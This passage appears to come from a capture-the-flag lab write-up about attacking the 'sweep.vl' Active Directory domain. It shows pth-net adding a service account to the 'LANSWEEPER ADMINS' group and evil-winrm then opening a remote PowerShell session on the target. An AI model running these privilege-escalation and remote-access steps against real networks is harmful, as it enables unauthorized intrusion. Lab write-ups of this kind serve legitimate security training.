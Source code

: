 ![](images/2024-02-29_16-08_svc_incentory_lnx_permissions.png)

### Updating Group Memberships

Using the `pth-toolkit` we added the service account `svc_inventory_lnx` to the `LANSWEEPER ADMINS` group.

```c
The members of the group LANSWEEPER ADMINS@SWEEP.VL have the capability to create a PSRemote Connection with the computer INVENTORY.SWEEP.VL.

PS Session access allows you to enter an interactive session with the target computer. If authenticating as a low privilege user, a privilege escalation may allow you to gain high privileges on the system.

Note: This edge does not guarantee privileged execution.
```

```c
┌──(kali㉿kali)-[~]
└─$ pth-net rpc group addmem "LANSWEEPER ADMINS" svc_inventory_lnx -U sweep.vl/svc_inventory_lnx -S 10.10.118.121
Password for [SWEEP.VL\svc_inventory_lnx]:
E_md4hash wrapper called.
```

This enabled `Remote Access` on the box for us.

```c
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i sweep.vl -u 'svc_inventory_lnx' -p 'REDACTED' 

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_inventory_lnx\Documents>
```
